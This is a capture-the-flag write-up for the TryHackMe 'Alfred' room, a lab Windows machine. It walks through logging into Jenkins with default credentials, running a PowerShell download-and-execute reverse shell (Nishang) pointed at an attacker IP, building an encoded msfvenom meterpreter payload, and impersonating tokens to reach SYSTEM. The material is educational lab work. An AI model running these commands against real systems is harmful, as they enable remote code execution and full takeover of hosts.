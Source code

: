 ```yaml
---
title: Alfred-Writeup-THM
date: 2022-12-22 
categories: [room, easy]
tags: [windows, privesc, jenkins]     # TAG names should always be lowercase
---
```

## Initial Access

Exploiting Jenkins,

Jenkins is a tool used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it.

First of all I am going to scan the machine, for this I only know that the machine does not respond to ping, and I only need TCP ports,

```bash
nmap -sT -Pn 10.10.207.2 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-26 10:41 EST
Nmap scan report for 10.10.207.2
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

This is the output.

- Port 80 is hosting a site, which tells me important informations:
    
    ![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png)
    

I got a possible username and password: Bruce Wayne

And an email: alfred@wayneenterprises.com

But that’s it for now.

Port 8080 is where Jenkins is hosted.

Upon entering the page, there is a login portal, after trying “Bruce Wayne” and several other password, I am reminded that this is in the description of the room:

“common misconfiguration on a widely used automation server”

So i tried admin:admin, which worked.

Now I got control over Jenkins!

The first thing to do is searching for some type of tool that I can use to get a reverse shell:

https://github.com/samratashok/nishang

First I tried with the script console.

But it didn’t work because it can’t download the script like that, so I found a configure page under the project.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled%201.png)

Because it has RDP open we can assume that the machine is running Windows.

I am going to use this script: “https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1”

Which I downloaded in my machine, after that I started a python server: (this will be started in the same directory as the script, that’s because jenkins will download the script thanks to the python server)

```bash
python3 -m http.server 8000
```

Then I start a listener: 

```bash
nc -lvnp 4444
```

And then used this script in the script console:

```bash
*powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-python-server-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.20.116 -Port 4444*
```

After that I build the config we got a shell!

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.207.2] 49236
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

We can see that we are the user alfred\bruce

```bash
PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Now I need the user flag, which I found in the user Desktop:

PS C:\Users\bruce\Desktop> ls

```bash
PS C:\Users\bruce\Desktop> ls

Directory: C:\\Users\\bruce\\Desktop

Mode                LastWriteTime     Length Name

a--- 10/25/2019 11:22 PM 32 user.txt
```

Now, I am going to switch this scuffed revshell in an imrpoved version, we can do this using the meterpreter shell.

## Upgrading the shell

Leave your previous connection **OPEN**.

We create our payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.20.116 LPORT=4555 -f exe -o revshellps1.exe`

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.20.116:8000/revshellps1.exe','revshellps1.exe')"`

Now that we have done that, we need to use Metasploit:

```bash
**use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST Your_Machine_IP
LHOST => 10.18.20.116

msf6 exploit(multi/handler) > set LPORT Your_Port(Same as the one you used for creating the payload)
LPORT => 4555
msf6 exploit(multi/handler) > run
```

Once we run, we nee to go in our previous connection(The one we created with nc) and start the process:

```bash
Start-Process "shell-name.exe”
```

You will find the shell under: `C:\Program Files (x86)\Jenkins\workspace\project`

Now that we have a stable shell, we can try to gain major privileges!

## Privilege Escalation

First thing we do is:

`whoami /priv`

With this we can see all the Enabled privileges

(SeDebugPrivilege, SeImpersonatePrivilege) Those are the one that we find interessing.

Then we check for the available tokens:

`impersonate_token`

And we can see the BUILTIN\Administrators token available

So we try to impersonate the token:

```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user **NT AUTHORITY\SYSTEM**
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user.

To go around that we can migrate to a process with the correct privileges.

First we use `ps` to view the processes, then we grab the PID of services.exe, which we pick because is it normally a ssafe option.

and we migrate to that PID:

```bash
migrate PID-OF-PROCESS
```

Now we should have full SYSTEM privileges!